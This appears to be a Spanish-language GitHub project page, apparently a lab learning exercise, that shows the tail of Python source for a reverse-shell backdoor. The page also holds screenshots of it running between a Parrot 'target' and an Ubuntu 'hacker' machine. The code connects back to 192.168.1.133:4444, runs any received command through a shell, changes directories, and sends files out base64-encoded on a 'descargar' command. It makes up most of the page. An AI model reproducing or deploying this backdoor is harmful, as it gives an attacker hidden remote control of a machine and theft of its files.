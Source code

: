 ```bash
            except ValueError:
                continue
    
    def ejecutar_comando(self,comando):
        return subprocess.check_output(comando,shell=True).decode("utf-8")

    def cambiar_directorio(self,ruta):
        os.chdir(ruta)
        return "[+] Cambiando de directorio a {}".format(ruta)
    
    def leer_archivo(self,ruta):
        with open(ruta,"rb") as file:
            return base64.b64encode(file.read()).decode("utf-8")

    def run(self):
        while True:

            comando = self.reception_segura()

            if comando[0] == "salir":
                self.connection.close()
                exit()
            elif comando[0] == "cd" and len(comando) > 1:
                resultado_comando = self.cambiar_directorio(comando[1])
            elif comando[0] == "descargar":
                resultado_comando = self.leer_archivo(comando[1])
            else:
                resultado_comando = self.ejecutar_comando(comando)
                
            self.envio_seguro(resultado_comando)
       

backdoor = Backdoor("192.168.1.133",4444)
backdoor.run()
```

# Parrot (Target)

![implementamos descarag de imagenes parrot](https://user-images.githubusercontent.com/97669969/157455682-3a8649f7-37af-4ffa-8e99-d3d49d2c7065.png)
* Backdoor corriendo corectamente.


# Ubuntu (Hacker)

![implementamos descaraga de imagenes ubuntu](https://user-images.githubusercontent.com/97669969/157455902-bf526204-6ea1-42a9-bff0-4ee779c896b5.png)
* Correctamente funcionando, imagen descargada.



# HACEMOS MEJORAS EN CUANTO AL CODIGO , QUITANDO ERRORES 
 